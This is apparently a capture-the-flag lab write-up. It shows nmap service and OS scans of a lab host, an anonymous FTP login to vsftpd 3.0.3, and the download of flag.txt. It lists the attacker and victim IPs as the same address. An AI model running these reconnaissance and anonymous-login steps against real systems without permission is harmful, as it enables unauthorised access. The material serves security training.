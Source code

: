 ---- 
## Initial Information

- Attacker IP = 10.129.241.49
- Victim IP = 10.129.241.49
---
## Initial Scanning 


- Did an nmap scan to find what services are running found that FTP is running on port 21
```shell
nmap 10.129.241.49            

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 17:43 EDT
Nmap scan report for 10.129.241.49
Host is up (0.035s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp


```

- found that it is running vsftpd 3.0.3 and that it is running a unix based system and that it has a very high chance of being a Linux  system
```shell
nmap -sV 10.129.241.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 17:46 EDT
Nmap scan report for 10.129.241.49
Host is up (0.036s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

```


```shell
sudo nmap -O 10.129.241.49
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-22 17:50 EDT
Nmap scan report for 10.129.241.49
Host is up (0.018s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
Aggressive OS guesses: Linux 5.0 (95%), Linux 5.0 - 5.4 (95%), Linux 5.4 (94%), HP P2000 G3 NAS device (93%), Linux 4.15 - 5.6 (93%), Linux 5.3 - 5.4 (93%), Linux 2.6.32 (92%), Linux 2.6.32 - 3.1 (92%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (92%), Linux 3.7 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.44 seconds

```

- Logged into the Victim Server using FTP using the "anonymous" username and no password we know we were successful as we got a code 220
```shell
ftp 10.129.241.49 
Connected to 10.129.241.49.
220 (vsFTPd 3.0.3)
Name (10.129.241.49:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||12445|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> 

```

- Got the flag with the ftp Get command  to download into my download
```shell
get flag.txt
``` 

